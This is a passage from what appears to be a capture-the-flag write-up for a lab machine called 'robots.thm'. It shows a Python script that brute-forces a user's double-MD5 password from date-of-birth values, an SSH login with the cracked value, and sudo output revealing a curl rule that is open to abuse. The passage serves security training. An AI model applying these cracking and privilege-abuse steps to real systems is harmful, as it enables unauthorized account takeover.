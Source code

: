 Knowing this, we can write a **Python** script to brute-force all possible day and month values for the date of birth of the `rgiskard` user and compare them to the hash from the database:

```py
#!/usr/bin/env python3

from hashlib import md5

for m in range(1, 13):
	for d in range(1, 32):
		plain = "rgiskard" + str(d).zfill(2) + str(m).zfill(2)
		password = md5(plain.encode()).hexdigest()
		hashed = md5(password.encode()).hexdigest()
		if hashed == "[REPLACE WITH THE HASH FROM THE DATABASE FOR THE RGISKARD USER]":
			print(f"Plain: {plain}, Password: {password}")
			exit()
```
{: file="brute.py" }

Running the script, we are successfully able to discover the password for the `rgiskard` user:

```console
$ ./brute.py
Plain: rgiskard[REDACTED], Password: [REDACTED]
```

While the plain password does not work, we can use the `md5` hashed password with `SSH` to get a shell as the `rgiskard` user on the host:

```console
$ ssh rgiskard@robots.thm
rgiskard@robots.thm's password:
rgiskard@ubuntu-jammy:~$ id
uid=1002(rgiskard) gid=1002(rgiskard) groups=1002(rgiskard)
```

## Shell as dolivaw

### Arbitrary File Write with Curl

Checking the `sudo` privileges for the `rgiskard` user, we can see that we are able to run the `/usr/bin/curl 127.0.0.1/*` command as the `dolivaw` user.

```console
rgiskard@ubuntu-jammy:~$ sudo -l
[sudo] password for rgiskard:
Matching Defaults entries for rgiskard on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rgiskard may run the following commands on ubuntu-jammy:
    (dolivaw) /usr/bin/curl 127.0.0.1/*
```

From the `sudo` configuration, while the first URL we pass to `curl` must be `127.0.0.1/`, `curl` accepts multiple URLs in a single command. Combining this with the `file://` protocol, which `curl` also accepts, we can simply read the `user` flag as follows:
